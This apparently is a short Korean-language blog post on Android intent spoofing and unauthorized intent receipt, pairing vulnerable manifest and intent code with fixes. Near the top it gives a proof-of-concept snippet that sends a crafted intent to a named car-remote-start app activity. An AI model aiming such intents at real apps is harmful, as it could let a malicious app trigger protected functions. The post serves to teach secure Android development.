 ```yaml
---
layout: post
title: "Intent Spoofing on Android"
date: 2014-08-06 15:37:16 +0900
comments: true
categories: 
---
```


* [FourGoats Vulnerabilities: Intent Spoofing](http://pwntest.wordpress.com/2012/11/17/168935099/)
* [Intent Spoofing on Android](http://blog.palominolabs.com/2013/05/13/android-security/)
* [Android App Security: What (not) to do!](http://www.slideshare.net/mrtompa/android-app-security-what-not-to-do/)

#### Action

Intent spoofing 에 취약한 App 을 exploit 하는 것은 다음 코드와 같다. `startActivityForResult()` 로 인텐트를 날린다.

    protected void onCreate(Bundle paramBundle)
    {
        super.onCreate(paramBundle);
        setContentView(2130903063);
        Intent localIntent = new Intent();
        localIntent.putExtra("galleryFlowID", 100);
        localIntent.putExtra("carowner", "suzuki");
        localIntent.putExtra("Intent_new_title", "Toyota");
        localIntent.setComponent(new ComponentName("com.toyota.tconnect", "com.toyota.tconnect.RemoteStartPINActivity"));
        startActivityForResult(localIntent, 0);
    }

#### Intent spoofing

이런 취약점이 발생하는 이유는, 인텐트 receiver 를 정의할때, 퍼미션 세팅을 안했기때문.

    <receiver android:name="one.special.receiver">
      <intent-filter>
        <action android:name="one.intent.action" />
      </intent-filter>
    </receiver>

* Public components and senders with weak permissions
* Malicious app sends Intent resulting in data injection or state change

#### Intent spoofing 방지

    <receiver android:name="one.special.receiver" 
                android:exported=false>
      <intent-filter>
        <action android:name="one.intent.action" />
      </intent-filter>
    </receiver>

    <receiver android:name="one.special.receiver" 
                android:exported=false
                android:permission="one.permission">
      <intent-filter>
        <action android:name="one.intent.action" />
      </intent-filter>
    </receiver>

#### Unauthorized Intent Receipt

인텐트를 다음과 같이 보내면 안된다.

    Intent intent = new Intent();
    intent.setAction("a.special.action");
    startActivity(intent);

* Given a public Intent which doesn't require strong permission in the receiving component
* Intercepted by malicious app
* May leak sensitive data and/or change in control flow

좋은 예

    Intent fixedIntent = new Intent();
    fixedIntent.setClassName("pkg.name","pkg.name.DestinationName");

    Intent fixedIntent2 = new Intent();
    fixedIntent2.setAction("a.special.action");
    sendBroadcast(fixedIntent2, "a.special.permission");

위와 같이 보내는 것이 좋다.
